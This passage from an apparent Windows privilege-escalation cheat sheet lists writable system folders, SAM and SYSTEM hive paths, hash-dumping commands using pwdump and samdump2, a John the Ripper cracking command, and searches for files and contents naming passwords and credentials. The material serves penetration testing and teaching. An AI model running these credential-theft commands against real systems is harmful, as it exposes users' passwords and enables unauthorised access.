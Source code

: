 ### Default Writeable Folders

```powershell
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing
```

## EoP - Looting for passwords

### SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a
database file. The user passwords are stored in a hashed format in a registry
hive either as a LM hash or as a NTLM hash. This file can be found in
%SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

```powershell
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using `pwdump` or `samdump2`.

```powershell
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Then crack it with `john -format=NT /root/sam.txt`.

### Search for file contents

```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

### Search for a file with a certain filename

```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

### Search the registry for key names and passwords
